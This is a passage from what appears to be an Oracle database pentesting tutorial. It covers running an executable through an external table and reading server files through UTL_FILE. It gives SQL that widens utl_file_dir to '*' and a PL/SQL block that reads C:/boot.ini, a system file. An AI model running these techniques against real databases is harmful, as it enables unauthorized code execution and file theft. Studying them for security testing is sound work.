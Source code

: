 Now, just call your batch file with the following command:
1
	SELECT * from EXTT;

The terminal will start to display error messages that the system cannot match the table and invoked file but, in this case, it is not important, as the main objective was to open the executable file, which you have achieved.
ODAT.py utility also can implement this attack. However, it requires the privilege CREATE ANY DIRECTORY, which, by default, is granted only to DBA role, since it attempts to execute the file from any and not only “your” directory.
Read/Write files
Now, let’s proceed to the task of reading and writing the files. If you simply need to read or write a file to the server, you can do it without any Java procedures, which, however, can also handle such tasks. Let’s have a look into UTL_FILE package that has the functionality required for working with the file system. The good news is that, by default, it can be accessed by all users with PUBLIC role. The bad news is that, by default, this procedure has no access to the entire file system, but only to a directory pre-defined by the administrator. However, it is not uncommon to find a directory parameter specified as *, which literally means “access to everything.” You can find this out by using the following command:
1
2
3
	select name, value from v$parameter where name = 'utl_file_dir';
With appropriate rights, you can expand the access by using the following query:
alter system set utl_file_dir='*' scope =spfile;

I found that the shortest procedure for using UTL_FILE package is proposed by Alexander Polyakov:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
	SET SERVEROUTPUT ON
declare
f utl_file.file_type;
sBuffer Varchar(8000);
begin
f:=UTL_FILE.FOPEN (''C:/’,'boot.ini','r');
loop
UTL_FILE.GET_LINE (f,sBuffer);
DBMS_OUTPUT.PUT_LINE(sBuffer);
end loop;
EXCEPTION
when no_data_found then
UTL_FILE.FCLOSE(f);
end;
/
